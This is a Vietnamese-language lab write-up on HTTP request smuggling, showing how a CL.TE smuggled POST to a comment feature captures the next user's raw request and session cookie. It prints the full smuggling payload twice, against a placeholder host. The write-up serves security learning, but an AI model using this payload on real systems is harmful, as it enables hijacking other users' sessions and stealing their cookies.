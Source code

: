 Bài lab mô tả rằng trong lần này chúng ta phải khai thác được cookie của người dùng tiếp theo bằng lỗ hổng trên. Để làm được điều đó chúng ta cần tìm hiểu 1 kỹ thuật khai thác của HTTP requset smuggling là Capturing other users' requests.
#### Capturing other users' requests

Các ứng dụng web nếu tồn tại chức năng lưu trữ và truy xuất thì sẽ tạo điều kiện cho việc HRS khai thác và truy xuất dữ liệu của người dùng tiếp theo. Có thể truy xuất session tokens, chiếm quyền hoặc leak những thông tin nhạy cảm của người dùng. Các chức năng tiềm năng để khai thác là comment, email, profile descriptions, screen names,...

Để thực hiện cuộc tấn công, bạn cần thực hiện HRS gửi dữ liệu đến hàm lưu trữ, với tham số chứa dữ liệu được đặt ở vị trí cuối cùng trong request. Request tiếp theo được xử lý bởi máy chủ back-end sẽ được thêm vào smuggled request, với kết quả trả về là 1 bản raw request của người dùng khác.

Giả sử rằng request của 1 ứng dụng như sau : 
```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```
Đây là 1 chức năng cmt có sesion tokens và csrf tokens. Ta có thể khai thác như sau : 
```
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 324

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

Sử dụng 1 request phân đoạn như sau: 
```
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 324

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```
Thì kết quả trả về chúng ta nhận được là : 
```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
```